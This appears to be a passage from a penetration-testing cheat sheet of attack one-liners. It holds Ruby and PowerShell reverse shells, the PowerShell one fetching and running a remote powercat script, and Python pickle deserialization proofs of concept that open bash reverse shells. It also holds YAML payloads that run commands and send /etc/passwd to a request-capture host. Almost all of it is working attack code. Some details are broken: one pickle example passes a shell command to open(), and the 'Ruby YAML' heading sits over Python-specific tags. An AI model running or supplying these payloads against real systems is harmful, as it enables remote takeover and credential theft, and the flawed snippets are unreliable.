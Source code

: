 <span style="color:#21C587">&#35;</span><strong> Ruby</strong><br>
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("domain","port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

<span style="color:#21C587">&#35;</span><strong> Powershell</strong><br>
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c domain -p port -e cmd
```

---
## Python Pickle RCE PoC<br>

<span style="color:#21C587">&#35;</span><strong> eval</strong><br>
```python
import __builtins__
import pickle
import base64

class rce(object):
  def __reduce__(self):
    x = "open('bash -i >& /dev/tcp/domain/port 0>&1').read()"
    return (__builtins__.eval, (x,))

print(base64.b64encode(pickle.dumps(rce())))
```

<span style="color:#21C587">&#35;</span><strong> os.system</strong><br>
```python
import os
import pickle
import base64

class rce(object):
  def __reduce__(self):
    return (os.system, ('bash -i >& /dev/tcp/domain/port 0>&1',))

print(base64.b64encode(pickle.dumps(rce())))
```

---
## RCE with Ruby YAML.load

```
!!python/object/apply:subprocess.check_output ['ls']
!!python/object/apply:subprocess.check_output
       args: [ bash -i >& /dev/tcp/domain/port 0>&1 ]
       kwds: { shell: true }
!!python/object/apply:os.system ["wget https://requestbin/?`cat /etc/passwd`"]
```

---
## IPv4 to IP Decimal Conversion<br>
[Link](https://www.ipaddressguide.com/ip)

---